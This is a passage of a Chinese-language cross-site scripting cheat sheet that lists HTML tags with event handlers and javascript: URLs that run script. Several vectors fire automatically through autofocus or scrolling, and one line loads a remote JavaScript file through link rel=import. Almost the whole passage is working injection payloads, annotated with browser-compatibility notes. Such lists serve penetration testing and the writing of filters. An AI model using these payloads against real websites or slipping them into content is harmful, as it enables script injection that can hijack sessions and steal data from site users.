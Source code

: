 ```
### `<select>`

    <select onfocus=alert(1)></select>

    通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
    <select onfocus=alert(1) autofocus>

### `<iframe>`

    <iframe onload=alert("xss");></iframe>

### `<video>`

    <video><source onerror="alert(1)">

### `<audio>`

    <audio src=x  onerror=alert("xss");>

### `<body>`

    <body/onload=alert("xss");>

利用换行符以及 autofocus，自动去触发 onscroll 事件，无需用户去触发

    <body
    onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>

### \`<textarea>`

    \<textarea onfocus=alert("xss"); autofocus>

### `<keygen>`

    <keygen autofocus onfocus=alert(1)> //仅限火狐

### `<marquee>`

    <marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以

### \`<isindex>`

    \<isindex type=image src=1 onerror=alert("xss")>//仅限于IE

### 利用 link 远程包含 js 文件

**PS：在无 CSP 的情况下才可以**

    <link rel=import href="http://127.0.0.1/1.js">

### javascript 伪协议

`<a>`标签

    <a href="javascript:alert(`xss`);">xss</a>

`<iframe>`标签

    <iframe src=javascript:alert('xss');></iframe>

`<img>`标签
```